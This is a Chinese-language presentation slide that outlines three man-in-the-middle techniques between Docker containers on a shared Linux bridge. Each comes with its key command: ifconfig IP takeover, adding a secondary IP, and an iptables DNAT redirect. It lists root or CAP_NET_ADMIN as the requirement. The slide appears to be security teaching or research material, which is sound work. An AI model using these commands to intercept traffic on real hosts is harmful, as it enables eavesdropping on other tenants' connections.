

# 中间人攻击的方法与条件
方法1：修改IP地址
关键指令：

ifconfig eth0 172.17.0.2
成功条件：
Root
CAP_NET_ADMIN
方法2：添加子IP
关键指令：

ifconfig eth0 add 172.17.0.2
成功条件：
Root
CAP_NET_ADMIN
方法3：利用Netfilter实现NAT
关键指令：

iptables -t nat -A PREROUTING -d 172.17.0.2 -j DNAT --to 172.17.0.4
成功条件：
Root      ② CAP_NET_ADMIN

Attacker Process
Linux Kernel

Docker
Instance 2
Docker
Instance 3
Docker
Instance 1
Linux Kernel (Bridge)